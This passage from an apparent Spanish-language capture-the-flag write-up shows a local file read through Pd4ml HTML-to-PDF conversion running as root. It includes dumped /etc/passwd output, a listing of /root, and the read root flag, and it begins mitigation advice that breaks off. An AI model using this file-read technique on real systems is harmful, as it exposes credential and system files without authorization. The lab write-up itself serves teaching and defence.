 ```bash 
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
roy:x:1000:1000:,,,:/home/roy:/bin/bash
```

Podemos listar directorios y por ende, la flag de root: 
```bash
┌──(kali㉿kali)-[~/labs-hack]
└─$ ./get_files.sh /root       
.aws
.bash_history
.bashrc
.cache
.config
.java
.local
.profile
.ssh
backups
docker-compose.yml
files
restore.php
restore.sh
root.txt
snap
start.sh
sync.sh
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack]
└─$ ./get_files.sh /root/root.txt 
c121aaf08f0c5c2f0f62c4d84199aeb1
```


En “bucket” el script PHP (y por tanto el comando Java) se está ejecutando como root (o al menos como un usuario con permisos de lectura sobre /etc/shadow). Por eso Pd4ml puede abrir /etc/shadow sin ningún problema. 

---

Algunos consejos para mitigar esto: 

Para mitigar esta escalada de privilegios basada en la conversión HTML→PDF con Pd4ml y LFI, se pueden aplicar varias defensas en capas:

1. **Principio de menor privilegio**
